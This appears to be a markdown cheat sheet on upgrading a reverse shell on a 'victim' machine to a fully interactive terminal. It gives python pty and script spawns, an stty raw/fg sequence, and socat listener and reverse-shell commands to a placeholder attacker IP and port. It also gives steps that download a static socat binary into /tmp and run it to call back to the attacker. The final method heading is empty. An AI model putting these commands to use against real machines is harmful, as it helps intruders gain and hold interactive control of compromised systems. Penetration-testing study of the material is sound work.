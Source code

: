 # Upgrade shell to fully interactive tty 


get a vistim shell connection on your machine  

you can use python to spawn tty shell by using the pty built-in library if python available  

or you can also use other techniques like script or ruby 

## methode 1 : python (half interactive shell) 

> **python -c 'import pty; pty.spawn("/bin/bash")'**

## methode 2 : script 

> **/usr/bin/script -qc /bin/bash /dev/null**  


## Methode 3 : stty options (fully interactive)

> **python -c 'import pty;pty.spawn("/bin/bash")'** 

> ****

check your local machine terminal and also terminal rows and columns   

> **echo $TERM** 
> **stty size**

we need to export that values to victim session
 
> **export TERM=xterm-256color**
> **export SHELL=/bin/bash** 

On the victim shell, fork the shell to background by pressing ctrl+z and 
now you'll bring back to your local terminal  
 
Follow with the command to bring back the victim shell to foreground   

> **stty raw -echo;fg**

now the curser should be somewhere on the middle and you need to type 

   >    **reset**

 now we can specify  terminal with the number of rows and columns to make it display properly as we get from our local machine  


stty rows <number of rows> columns <number of columns>  

Now we have a fully interactive shell  

## Methode 4 : socat (fully interactive)

check if f socat is installed on the victim machine   
if installed  you can launch a reverse shell with it  

on attacker machine : 

```
 socat file:`tty`,raw,echo=0 tcp-listen:<port>
```

on victim machine   :

> **socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:<port>**  

if socat is not installed  you can try your luck with the standalone binary  

you can find it here https://github.com/andrew-d/static-binaries/tree/master/binaries


> wget -q https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat -O /tmp/socat
> chmod +x /tmp/socat 
> /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:<port>

now you have a fully interactive shell on your machine   


## Methode 5 :  
